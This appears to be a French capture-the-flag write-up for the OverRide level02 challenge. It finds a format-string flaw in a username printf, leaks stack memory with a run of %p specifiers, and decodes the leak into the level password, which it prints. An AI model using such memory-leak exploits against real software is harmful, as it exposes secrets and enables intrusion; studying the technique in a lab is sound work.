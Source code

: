 #### Etape 1 : Décompilation 

Le binaire effectue un open puis read du mot fichier contenant le mot de passe.
Il demande ensuite un username puis un password.
Si le mot de passe est bon il éxécute un /bin/sh.

#### Etape 2 : Recherche de faille

Le mot de passe semble faire 40 caractères selon la décompilation du binaire. (Vu dans les arguments du fread).
La seule faille visible semble être le printf a la fin du programme qui prend en argument la chaine de caractère qui correspond au username.
Autrement dit le programme est sensible a une format attack.

#### Etape 3 : Idée

Print le contenu des adresses pour obtenir le mot de passe.
En envoyant un %p on vois le contenu d'une adresse mémoire en hexadécimal.
Donc en essayant de print plusieurs adresse il est fort possible de trouver une suite ressemblant au mot de passe sous forme d'une chaine d'héxadécimaux. 

#### Etape 4 : Execution 

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
--[ Password: *****************************************
0x7fffffffe3e0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe5d8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x207025 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

#### Etape 5 : Conversion

De la 22e adresse a la 26e il y a 80 caractères ... donc une fois convertir en décimal 40.
On les converti avec un script puis on obtient : 
Mot de passe : Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H